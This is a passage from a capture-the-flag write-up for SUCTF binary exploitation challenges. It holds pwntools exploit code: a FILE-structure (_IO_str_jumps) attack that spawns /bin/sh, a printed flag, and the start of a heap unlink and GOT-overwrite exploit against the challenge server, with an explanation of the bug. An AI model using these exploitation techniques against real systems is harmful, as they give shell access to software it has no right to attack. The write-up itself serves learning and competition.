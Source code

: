 ```python

#_IO_list_all = libc + 0x3c5520
_IO_list_all = libc + 0x3c0500
_IO_str_jumps = libc + 0x3bc4c0
#system = libc + 0x45390
system = libc + 0x456d0
pop_rax_rbx_rbp = libc + 0x1fa71
ret = libc + 0x1fa74
add(10, flat(
    'a'*16,
    0x0, 0x61,
    0, _IO_list_all-0x10,
    0, 1,
    0, heap+0x1a0, heap+0x1a0,      # buf_base to heap & buf_end-buf_base==0
    [0]*18, _IO_str_jumps,
    ret, system,                    # malloc do nothing, free(buf_base) == system('/bin/sh')
    '/bin/sh\x00',
))

#raw_input("@")
r.sendlineafter('>>', '1')
r.sendlineafter('Size:', '10')

#embed()
r.interactive()

# SUCTF{Me1z1jiu_say_s0rry_LOL}
```

### Heap (b04902036)

there are four functions : creat(length, content), delete(index), show(index) and edit(index, content)
creat(length, content) : malloc 2 chunk of size "length", let's call them a and b, then read "length" bytes into a and strcpy(b, a), free a and store b in a global array heap_form
delete(index) : free(heap_form[index]), heap_form[index] = NULL
show(index) : show content of heap_form[index]
edit(index, content) : write strlen(heap_form[index]) bytes to heap_form[index]
vulnerability : In function edit(), it allows us to overwrite the size of next chunk, and thus we can perform an unlink, then modify got and get shell.
I choose to overwrite got of free() since everytime the program read input, it will malloc 8 bytes and free it. So we can input '/bin/sh\x00' after we overwrite the got and get shell.
```python
#!/usr/bin/python
from pwn import *
host = 'pwn.suctf.asuri.org'
port = 20004
r = remote(host, port)
def create(length, name):
    r.recvuntil('4:edit')
    r.sendline('1')
    r.recvuntil('input len')
    r.sendline(str(length))
    r.recvuntil('your data')
    if(len(name) == length):
        r.send(name)
    else:
        r.sendline(name)
def delete(idx):
    r.recvuntil('4:edit')
    r.sendline('2')
    r.recvuntil('input id')
    r.sendline(str(idx))
```